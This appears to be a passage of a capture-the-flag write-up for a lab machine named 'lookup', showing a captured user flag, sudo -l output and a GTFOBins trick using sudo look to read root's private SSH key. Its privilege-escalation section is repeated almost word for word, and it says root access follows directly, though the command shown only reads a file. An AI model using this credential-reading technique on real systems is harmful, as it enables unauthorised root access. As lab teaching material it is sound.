 We’re logged in to the system:

```
think@lookup:~$
```

We find the user flag:

```
38375fb4dd8baa2b2039ac03d92b820e
```

### Privilege Escalation

The user `think` has the following sudo privileges:

```
think@lookup:~$ sudo -l
[sudo] password for think: 
Matching Defaults entries for think on lookup:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```

Now, we use GTFOBins to escalate privileges using the `look` command:

```
LFILE=/root/.ssh/id_rsa
sudo look '' "$LFILE"
```

This grants us root access. We now have full control over the system.

---
### Privilege Escalation

Now that we have successfully obtained a shell and have logged in as the user `think`, we can check for any potential privilege escalation opportunities. We start by checking for any commands the user `think` is allowed to run with `sudo` privileges:

```bash
think@lookup:~$ sudo -l
[sudo] password for think: 
Matching Defaults entries for think on lookup:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```

The `think` user can run the `/usr/bin/look` command with `sudo` privileges. We can check whether this command can be exploited for privilege escalation by referencing GTFOBins (a repository of Unix binaries that can be used for privilege escalation).
